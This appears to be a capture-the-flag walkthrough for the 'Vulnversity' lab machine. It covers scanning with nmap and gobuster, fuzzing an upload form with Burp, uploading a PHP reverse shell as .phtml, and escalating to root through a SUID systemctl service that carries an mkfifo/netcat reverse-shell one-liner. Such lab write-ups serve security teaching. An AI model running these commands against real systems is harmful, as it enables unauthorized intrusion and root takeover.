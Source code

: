 Vulnversity
===========

Vulnversity is a nice straightforward CTF that emulates basic know-how of getting access to a system and then escalating your priviledge. Quite enjoyable to say the least, just needs you to understand some underlying code.

Lets start with an nmap scan of the target IP, which will look something like this:

```
nmap -sV -Pn -v <TARGET_IP>
```

![Image](images/1.png)

We see that we have 6 ports open, where `http-proxy` and `http` seem interesting. Open the target IP on your browser like this: `<TARGET_IP>:3333`

Next, we can work on a gobuster scan on this webpage, which a command that looks something like this:

```
gobuster dir -u http://<TARGET_IP>:3333/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html,txt
```
(Note: You can make this faster by using the `-t` option. Personally, I use `-t 40` but you can go beyond if your PC can take it)

We see that we get the following hits:
```
/images
/index.html
/css
/js
/fonts
/internal
```
Other than the last one, everything else seems pretty standard. Lets check out `/internal` first:

![Image](images/2.png)

Upload forms generally are an attack vector that we can use to use the Unrestricted File Upload exploit (As stated by OWASP)

When you try to upload a file, you will be an "Extension not allowed" error. This means that we have to fuzz this upload form to see which extension can be uploaded. A wordlist you can use for this can be found here: https://github.com/xmendez/wfuzz/blob/master/wordlist/general/extensions_common.txt

A good way to fuzz upload forms, is through BurpSuite, we can capture the upload form packet and use its Intruder mode to bruteforce which extension works. Firstly, Start BurpSuite, make a simple `.txt` file (mine is called `a.txt`) and upload it. Before clicking Submit, switch on Intercept in Proxy mode to capture the packet and then click Submit.

Your Proxy tab should look like this:

![Image](images/3.png)

Right-click and send the packet to Intruder, and add your target to look something like this:

![Image](images/4.png)

Use the wordlist I provided above as the payload and we can start the attack. (Make sure to disable URL encode in the options tab)

Once that is concluded, we can see in the below picture that only `.phtml` gets accepted:

![Image](images/5.png)

.phtml is a file extension that we can use to write PHP code. We can make a reverse shell payload in PHP and try to execute it on the website. You can get a PHP payload from this website and use the .phtml extension on it: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php (Replace the IP and port in the above script and save it)

We have a reverse shell payload that we can upload to the website, so we can go ahead and upload it, start a listener with the following command:
```
nc -lvnp PORT
```
and execute the reverse shell file by going to this webpage: http://<TARGET_IP>:3333/internal/uploads/FILE_YOU_UPLOADED

On your listener, we can see that we have recieved a reverse shell. I like to use the following command to make my reverse shell a little more readable:
```
python -c 'import pty;pty.spawn("/bin/bash")'
```

On typing `ls`, we can see that we are in the `/` directory. From here on, we can explore the home directory, find the user `bill` and the user flag in: `/home/bill/user.txt`

Here on out, we need to escalate our priviledge, I tried `sudo -l` but it asks a sudo password and we don't have that, so I try the next best thing, SUID executables. We can find all the SUID files through the following command:
```
find . -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```

I then used this website: https://gtfobins.github.io/ to see if I can find any existing SUID vulnerabilities. After looking through the whole list, you find that `systemctl` can be exploited if it has SUID root permission. You can read about it here: https://gtfobins.github.io/gtfobins/systemctl/#suid

```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```

The above code essentially means that we can execute the `id` command and the output will be displayed at `/tmp/output`. Once executed, you can see that the ID is of the root user. This tells us that if we can get a reverse shell from this command, it will be the root reverse shell. I looked for a couple reverse shells and found this one to work the best:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <TARGET_IP> PORT >/tmp/f
```

This works best because it is small and doesn't need any quotation marks (They mess up the SUID exploit).

So, your SUID exploit will look like this:

```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <TARGET_IP> PORT >/tmp/f"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```

Start another listener on a different port using the `nc -lvnp PORT` command and execute the above exploit. When you check on your listener, you will be having a reverse shell. You can find the root flag in: `/root/root.txt`
